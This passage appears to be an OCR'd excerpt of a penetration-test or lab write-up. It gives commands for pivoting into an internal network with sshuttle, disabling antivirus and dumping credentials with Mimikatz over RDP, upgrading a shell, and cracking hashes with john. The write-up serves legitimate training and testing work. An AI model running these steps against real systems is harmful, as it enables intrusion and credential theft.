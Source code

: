 #### Pivot Access via SSHuttle

```bash
sudo sshuttle -r root@192.168.198.135 --ssh-cmd "ssh -i /root/.ssh/id_rsa" 192.168.198.0/24 -x 192.168.198.135 -vvv
```

#### RDP and Credential Dump with Mimikatz

Log into `192.168.198.140` via RDP (Rimmenna or xfreerdp)
Disable AV → Upload mimikatz → Launch via PowerShell:

```bash
mimikatz
sekurlsa::logonpasswords
```

#### Additional Commands Used

```bash
# Connect to MySQL database (from db_connect.php credentials example):
mysql -u root -p
```

```bash
# Upgrade shell manually if needed:
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Crack archive password
/usr/share/john/7z2john.pl secret2.7z > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

# Use john with SHA512 format
john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt hashubuntu.txt

# Mimikatz credential harvesting:
sekurlsa::logonpasswords
```

## Evidence 

```bash
whoami
id
hostname
ip a
pwd
ls -la /var/www/html
date
```

- Screenshots saved in the `evidence/` directory.

---

## Cleanup & Reset
